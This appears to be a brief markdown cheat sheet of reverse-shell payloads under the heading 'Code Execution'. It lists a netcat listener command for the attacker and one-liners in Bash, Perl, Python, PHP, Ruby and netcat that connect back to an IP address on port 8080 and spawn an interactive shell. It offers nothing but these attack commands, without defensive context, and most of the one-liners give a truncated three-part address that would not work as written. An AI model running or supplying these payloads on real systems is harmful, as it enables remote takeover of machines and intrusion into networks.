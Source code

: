 # Code Execution

## Attacker Listening
```cmd
nc -vv -l -p 8080
```

## Payloads
- BASH: ```bash -i >& /dev/tcp/10.20.14.203/8080 0>&1```
- PERL: ```perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
- Python: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
- PHP: ```php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'```
- Ruby: ```ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```
- Netcat: ```nc -e /bin/sh 10.20.14 8080```
